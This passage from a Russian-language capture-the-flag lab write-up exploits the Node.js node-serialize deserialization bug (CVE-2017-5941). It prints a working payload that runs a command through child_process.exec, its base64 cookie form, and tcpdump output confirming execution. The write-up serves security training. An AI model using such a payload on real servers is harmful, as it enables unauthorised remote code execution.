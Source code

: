 Что ж, использование cookie со стороны web-сервиса — уже большое поле для творчества, пора выяснить слабые места фреймворка.

## Node.js deserialization bug
Обратимся ко всемирной паутине за помощью. Интернет подсказывает, что *Node.js Express framework* имеет уязвимость в модуле сериализации данных (версии ⩽ 0.0.4) для Node.js за номером [CVE-2017-5941](https://nvd.nist.gov/vuln/detail/CVE-2017-5941 "NVD - CVE-2017-5941"), которая открывает атакующему возможность удаленного выполнения кода. Подробнее о механизме уязвимости можно почитать [здесь](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf "41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf").

То, что нам нужно! Проверим возможность эксплуатации.

## Proof-of-Concept
Для начала небольшой PoC-тест: особенность уязвимости позволяет выполнить произвольную js-функцию на машине жертвы, но не получить *вывод этой функции*, поэтому для доказательства возможности эксплуатации выберем то, "что нельзя увидеть, но можно почувствовать", i. e. попробуем пропинговать Kali-машину с сервера. Для этого соберем payload:
```
{"rce": "_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 2 <LHOST>',function(error,stdout,stderr){console.log(stdout)});}()"}
```

Создание зловредного cookie почти завершено, только добавим в словарь ключи из оригинального значения профиля (на всякий случай даже те, которые явно не участвуют в ответе) и закодируем base64 (силами Burp Decoder'а, чтобы не мучиться с escape-символами в терминале):
```
{"username": "3v3l_h4ck3r", "country": "Shangri-La", "city": "Civitas Solis", "num": "13373", "rce": "_$$ND_FUNC$$_function(){require('child_process').exec('ping -c 2 <LHOST>',function(error,stdout,stderr){console.log(stdout)});}()"}

eyJ1c2VybmFtZSI6ICIzdjNsX2g0Y2szciIsICJjb3VudHJ5IjogIlNoYW5ncmktTGEiLCAiY2l0eSI6ICJDaXZpdGFzIFNvbGlzIiwgIm51bSI6ICIxMzM3MyIsICJyY2UiOiAiXyQkTkRfRlVOQyQkX2Z1bmN0aW9uKCl7cmVxdWlyZSgnY2hpbGRfcHJvY2VzcycpLmV4ZWMoJ3BpbmcgLWMgMiA8TEhPU1Q+JyxmdW5jdGlvbihlcnJvcixzdGRvdXQsc3RkZXJyKXtjb25zb2xlLmxvZyhzdGRvdXQpfSk7fSgpIn0=
```

Поставим tcpdump слушать нужный интерфейс на ICMP-пакеты и выстрелим запросом из Burp:
```text
root@kali:~# tcpdump -vv -i tun0 'icmp[icmptype]==8'
tcpdump: listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
07:47:06.901111 IP (tos 0x0, ttl 63, id 51198, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.85 > kali: ICMP echo request, id 5880, seq 1, length 64
07:47:07.891131 IP (tos 0x0, ttl 63, id 36086, offset 0, flags [DF], proto ICMP (1), length 84)
    10.10.10.85 > kali: ICMP echo request, id 5880, seq 2, length 64
^C
2 packets captured
2 packets received by filter
0 packets dropped by kernel
```

Получили 2 пинга (`icmptype 8` это ICMP-запрос, наши ответы игнорируем), значит все по плану. Переходим к боевым действиям.
